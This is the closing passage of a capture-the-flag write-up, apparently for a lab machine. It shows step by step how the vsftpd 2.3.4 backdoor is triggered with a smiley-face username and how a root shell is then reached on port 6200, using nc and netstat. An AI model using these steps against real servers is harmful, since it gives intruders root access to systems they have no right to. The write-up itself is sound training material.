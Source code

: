 > Users logging into a compromised vsftpd-2.3.4 server may issue a "`:)`" smileyface as the username and gain a command shell on port 6200.

Port 6200? Let's try and see! Before triggering the backdoor, the port is closed:

```
root@lame:/# nc 127.0.0.1 6200

(UNKNOWN) [127.0.0.1] 6200 (?) : Connection refused
```

Next we'll trigger the backdoor, specifying the username with smileyface:

```
root@lame:/# nc 127.0.0.1 21

220 (vsFTPd 2.3.4)
USER jens:)
331 Please specify the password.
PASS mypassword
```

If we check with `netstat` we can see, the port is now listening:

```
root@lame:/# netstat -tnlp | grep 6200

netstat -tnlp | grep 6200
tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      6679/vsftpd
```

And so we can connect to port 6200 locally and get a shell as root:

```
root@lame:/# nc 127.0.0.1 6200

id
uid=0(root) gid=0(root)
```

And that wraps up the writeup! Thanks for sticking around until the end! Happy hacking!
